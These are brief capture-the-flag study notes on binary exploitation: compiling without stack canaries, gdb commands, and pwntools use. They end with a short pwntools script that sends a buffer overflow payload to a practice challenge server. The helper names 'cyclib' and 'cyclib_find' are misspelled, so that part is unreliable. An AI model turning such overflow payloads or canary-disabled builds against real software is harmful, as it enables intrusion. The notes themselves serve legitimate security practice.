 # CTF note

## PWN

- 32bit frame

  - gcc -m32

- protect
  
  - gcc -fno-stack-protector file.c(關閉canary)

- gdb調用技巧

  - disas main

  - info func
 
  - x $ebp+8

- pwntools
 
  - OFFSET  

    - cyclib(50)
 
    - cyclib_find('aa') 

pwntools 基本用法
```python
from pwn import *
context(log_level = 'debug')
playload = 'A'*52 + p32(0xcafebabe)
r = remote('pwnable.kr',9000)
#r.recvuntil('overflow me :')
r.send(playload)
r.interactive()
```
